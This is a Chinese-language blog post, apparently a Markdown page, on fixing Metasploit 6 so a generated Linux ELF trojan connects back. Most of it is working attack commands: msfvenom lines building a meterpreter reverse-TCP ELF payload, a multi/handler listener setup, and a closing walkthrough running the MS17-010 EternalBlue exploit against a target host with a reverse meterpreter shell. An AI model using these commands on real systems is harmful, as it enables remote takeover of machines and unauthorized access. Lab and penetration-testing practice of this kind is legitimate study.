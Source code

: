 ```yaml
---
layout: post
title: msf 生成 linux elf 木马反弹不成功的解决方法
categories: [安全工具]
description: docker 版本安装 msf 
keywords: 安全工具,msf
---
```


# 0x01 前言

## 这几天我的msf 要生成linux 的木马 一直反弹不成功，用的是以下的paylaod

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.233.131 LPORT=4444 -f elf > mshell.elf

我分析了一下报错，这个报错是没问题的，但生成的木马只有250b ，这明显是不成功的。

## 0x02 解决问题

我刚开始认为是我msf的问题 ，回来验证了一下，我的msf 是6的版本，而这个语句是5的写法，而我启动 msfconsole ，发现我的版本是6


**msf 6的生成语句为**

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.3.16 LPORT=4444 -f elf > shell.elf
```
所以我改了payload ：linux/x64/meterpreter_reverse_tcp
这时候，就可以生成成功

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.233.131 LPORT=4444 -f elf > mshell.elf
```

生成监听

```
msfconsole                                         # 在命令行里面输入命令，进入msf漏洞利用框架；
use exploit/multi/handler                          # 监听木马反弹过来的shell
set payload linux/x64/meterpreter/reverse_tcp  	   # 设置payload，不同的木马设置不同的payload，设置payload时，要根据目标系统的系统位数设置相应的payload;
set lhost 192.168.100.132                          # 我们的kali本机ip
set lport 6666                                     # 我们的kali本机端口
exploit           

```
反弹成功。


![本站favicon](https://cdn.jsdelivr.net/gh/dzxindex/picture@master/QQ%E6%88%AA%E5%9B%BE20220314191955.png)


## 利用ms17_010_eternalblue模块进行渗透：
打开msf框架：

msfconsole

使用ms17_010_eternalblue模块及各个配置：

use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/reverse_tcp

show options

set rhost 目标主机IP

set lhost 监听的主机IP（在这里是docker主机的IP）

set lport 监听的端口（示例中为设置的映射的端口1234）

exploit
